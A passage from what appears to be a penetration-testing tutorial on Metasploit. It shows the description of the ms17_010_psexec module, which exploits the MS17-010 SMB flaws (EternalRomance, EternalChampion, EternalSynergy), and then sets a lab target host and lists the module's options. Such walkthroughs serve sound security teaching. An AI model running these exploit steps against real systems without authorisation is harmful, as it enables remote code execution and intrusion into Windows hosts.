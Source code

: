 ```shell-session
Payload information:
  Space: 3072

Description:
  This module will exploit SMB with vulnerabilities in MS17-010 to 
  achieve a write-what-where primitive. This will then be used to 
  overwrite the connection session information with as an 
  Administrator session. From there, the normal psexec payload code 
  execution is done. Exploits a type confusion between Transaction and 
  WriteAndX requests and a race condition in Transaction requests, as 
  seen in the EternalRomance, EternalChampion, and EternalSynergy 
  exploits. This exploit chain is more reliable than the EternalBlue 
  exploit, but requires a named pipe.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://nvd.nist.gov/vuln/detail/CVE-2017-0143
  https://nvd.nist.gov/vuln/detail/CVE-2017-0146
  https://nvd.nist.gov/vuln/detail/CVE-2017-0147
  https://github.com/worawit/MS17-010
  https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
  https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

Also known as:
  ETERNALSYNERGY
  ETERNALROMANCE
  ETERNALCHAMPION
  ETERNALBLUE
```

After we are satisfied that the selected module is the right one for our purpose, we need to set some specifications to customize the module to use it successfully against our target host, such as setting the target (`RHOST` or `RHOSTS`).

**MSF - Target Specification**

Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
```